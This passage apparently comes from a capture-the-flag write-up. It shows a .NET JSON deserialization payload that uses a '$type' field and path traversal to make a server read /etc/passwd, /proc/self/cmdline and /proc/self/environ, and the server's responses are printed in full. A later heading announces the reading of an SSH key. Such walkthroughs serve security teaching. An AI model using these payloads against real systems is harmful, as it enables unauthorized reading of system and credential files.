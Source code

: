         "ReadFile": "root:x:0:0:root:/root:/bin/bash\nbin:x:1:1:bin:/bin:/sbin/nologin\ndaemon:x:2:2:daemon:/sbin:/sbin/nologin\nadm:x:3:4:adm:/var/adm:/sbin/nologin\nlp:x:4:7:lp:/var/spool/lpd:/sbin/nologin\nsync:x:5:0:sync:/sbin:/bin/sync\nshutdown:x:6:0:shutdown:/sbin:/sbin/shutdown\nhalt:x:7:0:halt:/sbin:/sbin/halt\nmail:x:8:12:mail:/var/spool/mail:/sbin/nologin\noperator:x:11:0:operator:/root:/sbin/nologin\ngames:x:12:100:games:/usr/games:/sbin/nologin\nftp:x:14:50:FTP User:/var/ftp:/sbin/nologin\nnobody:x:65534:65534:Kernel Overflow User:/:/sbin/nologin\ndbus:x:81:81:System message bus:/:/sbin/nologin\ntss:x:59:59:Account used for TPM access:/dev/null:/sbin/nologin\nsystemd-network:x:192:192:systemd Network Management:/:/usr/sbin/nologin\nsystemd-oom:x:999:999:systemd Userspace OOM Killer:/:/usr/sbin/nologin\nsystemd-resolve:x:193:193:systemd Resolver:/:/usr/sbin/nologin\npolkitd:x:998:997:User for polkitd:/:/sbin/nologin\nrpc:x:32:32:Rpcbind Daemon:/var/lib/rpcbind:/sbin/nologin\nabrt:x:173:173::/etc/abrt:/sbin/nologin\nsetroubleshoot:x:997:995:SELinux troubleshoot server:/var/lib/setroubleshoot:/sbin/nologin\ncockpit-ws:x:996:994:User for cockpit web service:/nonexisting:/sbin/nologin\ncockpit-wsinstance:x:995:993:User for cockpit-ws instances:/nonexisting:/sbin/nologin\nrpcuser:x:29:29:RPC Service User:/var/lib/nfs:/sbin/nologin\nsshd:x:74:74:Privilege-separated SSH:/usr/share/empty.sshd:/sbin/nologin\nchrony:x:994:992::/var/lib/chrony:/sbin/nologin\ndnsmasq:x:993:991:Dnsmasq DHCP and DNS server:/var/lib/dnsmasq:/sbin/nologin\ntcpdump:x:72:72::/:/sbin/nologin\nsystemd-coredump:x:989:989:systemd Core Dumper:/:/usr/sbin/nologin\nsystemd-timesync:x:988:988:systemd Time Synchronization:/:/usr/sbin/nologin\ndeveloper:x:1000:1000::/home/developer:/bin/bash\nphil:x:1001:1001::/home/phil:/bin/bash\n_laurel:x:987:987::/var/log/laurel:/bin/false",
        "WriteFile": null
      },
      "WriteOrder": null,
      "ReadOrder": null
    }



It works! It create a `RemoveOrder` object with a `ReadFile` in it that
has `/etc/passwd`!

#### Read SSH Key

Just like with the previous file read, I can get the command line and
environment here:



    > {"RemoveOrder": {"$type": "bagel_server.File, bagel", "ReadFile": "../../../../proc/self/cmdline"}}
    < {
      "UserId": 0,
      "Session": "Unauthorized",
      "Time": "4:23:21",
      "RemoveOrder": {
        "$type": "bagel_server.File, bagel",
        "ReadFile": "dotnet\u0000/opt/bagel/bin/Debug/net6.0/bagel.dll\u0000",
        "WriteFile": null
      },
      "WriteOrder": null,
      "ReadOrder": null
    }
    > {"RemoveOrder": {"$type": "bagel_server.File, bagel", "ReadFile": "../../../../proc/self/environ"}}
    < {
      "UserId": 0,
      "Session": "Unauthorized",
      "Time": "4:23:08",
      "RemoveOrder": {
        "$type": "bagel_server.File, bagel",
        "ReadFile": "LANG=en_US.UTF-8\u0000PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin\u0000HOME=/home/phil\u0000LOGNAME=phil\u0000USER=phil\u0000SHELL=/bin/bash\u0000INVOCATION_ID=f22816b43f6e4edbac23633fd856c9d7\u0000JOURNAL_STREAM=8:25239\u0000SYSTEMD_EXEC_PID=890\u0000",
        "WriteFile": null
      },
      "WriteOrder": null,
      "ReadOrder": null
    }